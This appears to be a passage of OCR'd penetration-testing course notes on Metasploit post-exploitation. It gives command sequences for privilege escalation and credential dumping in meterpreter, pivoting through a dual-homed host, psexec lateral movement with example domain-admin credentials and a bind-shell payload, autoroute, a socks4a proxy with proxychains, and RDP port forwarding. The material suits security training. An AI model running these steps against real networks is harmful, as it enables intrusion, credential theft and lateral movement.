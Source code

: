 			meterpreter > getsyste
			meterpreter > cred_msv
	Pivoting with the metasploit framework:
		Let's leverage our existing meterpreter session to enumerate the internal network Active Directory infrastructure and pivot to other machines. 
		For example we want to scan a machine on the 192.168.1.0/24 network (the target machine is 192.168.1.110), while our meterpreter session is open on a dual-homed machine with IP addresses 10.11.0.22 and 192.168.1.111:
			msf5 > route add 192.168.1.0/24 2
			msf5 > route print
			msf5 > use auxiliary/scanner/portscan/tcp
			msf5 > set RHOSTS 192.168.1.110
			msf5 > set PORTS 445, 3389
			msf5 > run
		Since we have already reached Domain Admin access level credentialsm we can try to pivot to the machine at 192.168.1.110:
			msf5 > use exploit/windows/smb/psexec
			msf5 > show options
			msf5 > set SMBDomain corp
			msf5 > set SMBUser jeff_admin
			msf5 > set SMBPass Qwerty09!
			msf5 > set RHOSTS 192.168.1.110
			msf5 > set payload windows/meterpreter/bind_tcp
			msf5 > set RHOST 192.168.1.110
			msf5 > set LPORT 444
		It is important to note that the added route will work only for already established connections, thus the new shell on 192.168.1.110 must be a bind shell (a reverse shell payload wouldn"t work)
			msf5 > exploit
	Autoroute:
		Alternatively to manual pivoting, we can use the Autoroute post-exploitation module:
			msf5 > use multi/manage/autoroute
			msf5 > show options
			msf5 > session -l
			msf5 > set SESSION 2
		We run the module to set the new route automatically:
			msf5 > exploit
	socks4a:
		We can combine routes with the sock4a server module to configure a socks proxy to allow applications outside the metasploit framework to tunnel thru the pivot:
			msf5 > use auxiliary/server/socks4a
			msf5 > show options
			msf5 > set SRVHOST 127.0.0.1
			msf5 > exploit -j
		We now need to update pur proxychains configuration file (/etc/proxychains.conf) to take advantage of the soks proxy by adding a configuration line at the end of the conf file:
			sudo bash -c "socks4 127.0.0.1 1080" >> /etc/proxychains.conf
		Finally, we can use proxychains to run rdestop to obtain GUI access from our kali machine to the machine in the internal network:
			sudo proxychains rdesktop 192.168.1.110
	Port forwarding:
		We can use the portfwd command from inside a meterpreter session, which will forward a specific port into the internal network:
			meterpreter > portfwd -h
			meterpreter > add -l 3389 -p 3389 -r 192.168.1.110
		Then, we point the rdesktop application to our localhost to actually connect to the machine in the internal network on 192.168.1.110:
rdesktop 127.0.0.1
Metasploit automation:
	Resource scripts:
		sudo msfconsole -r setup.rc
